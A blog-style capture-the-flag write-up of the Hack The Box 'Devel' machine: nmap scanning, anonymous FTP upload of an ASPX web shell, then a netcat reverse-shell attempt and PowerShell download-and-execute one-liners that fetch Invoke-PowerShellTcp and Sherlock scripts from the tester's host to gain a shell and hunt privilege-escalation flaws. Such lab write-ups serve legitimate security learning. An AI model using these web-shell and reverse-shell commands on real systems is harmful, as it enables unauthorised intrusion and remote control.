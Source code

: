 ```yaml
---
layout: post
title:  "Write Up: Hack The Box - Devel"
date:   2024-08-11 11:33:17 -0400
categories: oscp windows priv-esc tcm-security course
---
```


in this post going to walkthrough the [HTB](https://www.hackthebox.com) box Devel today as a part of [doing the cybermentors windows priv esc](2024-08-11-cybermentor-win-priv-esc.md) course.

10.10.10.5


Loading the site in browser it looks like an IIS7 splash page, I see the following in wappalyzer:


Web frameworks
	Microsoft ASP.NET
Web servers
	IIS 7.5
Operating systems
	Windows Server
	
Doesn't seem to be much more to do on this page so we put a pin in it for now and check back on our nmmap results:

```
└─$ sudo nmap -sC -sV -p- -oA devel 10.10.10.5     
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-13 16:10 EDT
Nmap scan report for 10.10.10.5
Host is up (0.021s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS7
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 149.90 seconds
```

So in addition to port 80 the server also has the FTP (21) port open and based on our nmap results we can see that anonymous auth is allowed so lets go poke through that. There isnt much when logged in anonymously but I went ahead and pulled down all the files with:

> wget -m ftp://anonymous:anonymous@10.10.10.5

Getting the feeling I am going to need to upload a file to trigger a reverse shell so look through the files located on my kali box under /usr/share/webshells/ and lo and behold there is an aspx version so we should in theory be able to use this since as we have seen the server is running asp.net on IIS 7.5. So we log back in anonymously to devel via ftp and this time we upload cmdasp.aspx to the sever and then access it via a browser and we got this nifty little screen at http://10.10.10.5/cmdasp.aspx:

[screenshot]

I try running a couple items in there to get a shell such as 
> nc.exe -e cmd.exe 10.10.14.14 1234
to try and get a shell without much luck. After banging my head on the desk for a couple mins and getting the required flat forehead I remember that we can upload files via ftp so lets try uploading some malicoousness. I copy the file /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 to my directory for this box and open it up in vim:

[screenshot]

Looks like we should be able to just upload this to the server and then pass my listener ip and port via a parameter. Soooo we open back up an ftp session and upload our file:

[screenshot]

I then go back to our reverse shell screen and try running the script using variations of

> Invoke-PowerShellTcp.ps1 10.10.14.14 1234

without much success so I try another tact. I host the file locally using python3
[screenshot]
and then I updated the script to call itself with the parameters I want by adding the following line to the bottom of the script:
[screenshot]
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.14 -Port 4444

This will now let me run the following in our handy reverse shell webpage:

> powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.14:8000/Invoke-PowerShellTcp.ps1')"

and now we have our foothold!

[screenshot]

powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.14:8000/Sherlock.ps1'); Find-AllVulns"



 https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059


====================================================
alt foothold - use msfvenom to gen reverse shell payload and try accessing that... resesrch and make it happen!
